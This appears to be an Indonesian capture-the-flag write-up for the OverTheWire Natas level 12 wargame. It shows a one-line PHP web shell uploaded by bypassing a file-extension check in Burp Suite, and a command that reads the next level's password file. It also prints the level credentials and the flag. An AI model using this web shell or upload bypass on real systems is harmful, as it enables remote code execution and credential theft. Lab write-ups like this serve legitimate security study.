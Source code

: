 ```yaml
---
layout: default
level: 12
name_file: level
---
```


{% include level-section.html %}

# soal
Username: natas12 \
URL:      http://natas12.natas.labs.overthewire.org

# solve
- login with cred natas12:yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB
- lalu disini ada sebuah form gambar jpg yang kalo kita lihat dari codenya namaa file tersebut akan dibuat secara acak dengan format jpeg
  ![alt text](docs/images/image-22.png)
- jadi saya mencoba membuat backdoor php
  ```php
  cat simple.php 
  <?php echo system($_GET['c']); ?>
  ```
- dan mencoba menguploadnya dan ketika saya coba benar saja filenya diganti menjadi extension jpeg dengan nama acak
- dan untungnya ketika saya cek di burp suite tidak terdapat encrypt apapun jadi saya mengubahnya
  ![alt text](docs/images/image-23.png)
  ![alt text](docs/images/image-24.png)
- namun pas di forward hanya extensionnya saja namun tidak apa apa karena kita cuma butuh extensionya 
  ![alt text](docs/images/image-25.png)
- dan ketika saya coba buka filenya dengan urlnya saya sudah mendapatkan RCE
  ![alt text](docs/images/image-26.png)
- dan saya hanya perlu mendapatkan file passnya
  ![alt text](docs/images/image-27.png)
  - ```?c=cat /etc/natas_webpass/natas14```

# flag
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC